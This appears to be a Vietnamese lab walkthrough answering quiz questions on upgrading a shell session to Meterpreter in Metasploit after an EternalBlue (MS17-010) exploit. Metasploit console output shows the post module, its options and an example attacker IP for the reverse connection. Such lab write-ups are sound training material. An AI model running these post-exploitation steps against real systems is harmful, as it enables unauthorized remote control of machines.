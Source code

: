 **Tìm hiểu trực tuyến cách chuyển đổi shell sang shell meterpreter trong metasploit. Tên của module bài đăng chúng ta sẽ sử dụng là gì? (Đường dẫn chính xác, tương tự như exploit chúng ta đã chọn trước đó)**

>post/multi/manage/shell_to_meterpreter

```bash
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

---

**Chọn mục này (sử dụng MODULE_PATH). Hiển thị options, chúng ta cần thay đổi options nào?**
>SESSION

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payl
                                       oad (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > 
```

Chúng ta thấy các trường:

* **HANDLER** → mặc định `true`, giữ nguyên.
* **LHOST** → cần đặt IP của bạn (ví dụ `10.10.175.78`).
* **LPORT** → mặc định `4433`, có thể giữ hoặc đổi.
* **SESSION** → **bắt buộc phải set** (ID của shell session mà bạn muốn nâng cấp, ví dụ `1`).
